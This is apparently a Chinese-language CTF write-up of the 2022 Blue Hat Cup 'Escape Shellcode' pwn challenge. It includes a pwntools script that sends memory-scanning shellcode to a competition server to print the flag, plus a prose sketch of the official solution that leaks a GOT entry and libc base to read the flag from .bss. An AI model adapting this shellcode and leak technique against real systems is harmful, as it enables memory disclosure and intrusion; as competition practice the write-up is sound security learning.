 ```yaml
---
title: 「PWN」【蓝帽杯 2022】Writeup WP 复现
date: 2022-07-16 10:42:43
tags: ['CTF', 'Pwn', 'writeup', 'wp']
authors: [nova]
---
```


记录一下前几天打的蓝帽杯的 PWN 题，其他 Misc 和取证就不复现了，打的时候就没整太明白，全靠队友一手带飞。



# Escape Shellcode

我是直接写了很简单的`Shellcode`然后靠运气磨过去（指正好加到`/flag`的那个内存页然后 IO 输出出来）

```python
from pwn import *
context.arch = 'amd64'
context.os = 'linux'
context.log_level = 'DEBUG'

# sh = process(['escape_shellcode'])
sh = remote("39.107.108.120", 44431)
shellcode = """
mov r8, 0x557000000120

run:
    mov rax, 1
    mov rdi, 1
    xor rdx, rdx
    mov rdx, 0x10000
    mov rsi, r8
    syscall
    cmp al, 0xf2
    je looper
    
looper:
    add r8, 0x10000
    jmp run

"""
sh.sendline(asm(shellcode))
sh.interactive()

```

官方 writeup 倒是直接把 bss 的 flag 读出来了。本地调的时候看懂了原理，但是不知道这几个值是怎么出来的。

基本上就是获取了`prctl@got.plt`存到`R8`上（但是我不知道怎么调出来这个，通过`RIP`找到`[rip + 0xfb5 - 7]`这个指针，然后指针的内容加上`0x3e8`就到了这个`@got.plt`），再把真实地址记录到`R9`上。

然后`R9`用来保存`libc_base`，计算出`environ`的地址找到程序的基地址接着就可以读到`.bss`的`flag`了。

